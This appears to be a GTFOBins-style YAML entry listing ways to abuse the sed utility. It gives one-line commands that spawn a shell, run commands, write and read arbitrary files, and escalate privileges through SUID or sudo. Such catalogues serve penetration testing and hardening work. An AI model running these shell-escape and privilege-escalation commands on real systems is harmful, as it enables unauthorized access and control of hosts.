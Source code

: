 ```yaml
---
functions:
  execute-interactive:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n "1e bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  execute-non-interactive:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n "1s/.*/data/w $LFILE" /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo-enabled:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
---
```

